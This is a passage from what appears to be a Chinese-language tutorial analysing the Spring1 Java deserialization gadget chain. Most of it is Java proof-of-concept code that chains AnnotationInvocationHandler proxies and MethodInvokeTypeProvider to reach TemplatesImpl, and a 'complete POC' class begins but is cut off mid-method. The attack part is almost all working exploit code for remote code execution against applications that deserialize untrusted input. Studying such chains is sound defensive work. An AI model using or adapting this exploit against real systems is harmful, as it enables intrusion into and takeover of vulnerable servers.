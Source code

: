 ```java
    Map<String, Object> map = new HashMap<>();
    map.put("getType", typeTemplatesProxy);
    InvocationHandler getTypeMappingInvocationHandler = (InvocationHandler)aihCtor.newInstance(Override.class, map);
    Class<?> typeProvider = Class.forName("org.springframework.core.SerializableTypeWrapper$TypeProvider");
    Object typeProviderProxy = Proxy.newProxyInstance(Spring1.class.getClassLoader(), new Class[]{typeProvider}, getTypeMappingInvocationHandler);


    // -----------------下边的这段代码就不用关注了-----------------
    Class<?> methodInvokeTypeProvider = Class.forName("org.springframework.core.SerializableTypeWrapper$MethodInvokeTypeProvider");
    Constructor<?> mitpCtor = methodInvokeTypeProvider.getDeclaredConstructors()[0];
    mitpCtor.setAccessible(true);
    // 把构建好的动态代理传给MethodInvokeTypeProvider内部的provider属性
    final Object mitp = mitpCtor.newInstance(typeProviderProxy, Object.class.getMethod("getClass", new Class[] {}), 0);
    final Field field = mitp.getClass().getDeclaredField("methodName");
    field.setAccessible(true);
    field.set(mitp, "getOutputProperties");
}
```

这份POC代码已经是完整的了，但是为了验证效果，我们需要把`TemplatesImpl`进行补全，同时补全用于验证效果的序列化和反序列化方法。

## 完整POC

在经过了上边分析和POC补全过程后，于是你就得到了和ysoserial中的Spring1攻击链一样的代码，让我们运行这份代码看看效果：

```java
package spring;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import org.springframework.beans.factory.ObjectFactory;

import javax.xml.transform.Templates;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.*;
import java.util.HashMap;
import java.util.Map;

public class Spring1 {
    private static final String serialFileName = "demo.ser";

    public static void main(String[] args) throws Exception {
        // 因为有两个地方都需要用到sun.reflect.annotation.AnnotationInvocationHandler，所以这里把这个代码提到前边
        // 以便于两个地方都能调用这个类的构造方法
        Class<?> annotationInvocationHandler = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> aihCtor = annotationInvocationHandler.getDeclaredConstructors()[0];
        aihCtor.setAccessible(true);

        Map<String, Object> templatesImpl = new HashMap<>();
        templatesImpl.put("getObject", genTemplates());
        InvocationHandler templatesImplInvocationHandler = (InvocationHandler)aihCtor.newInstance(Override.class, templatesImpl);
```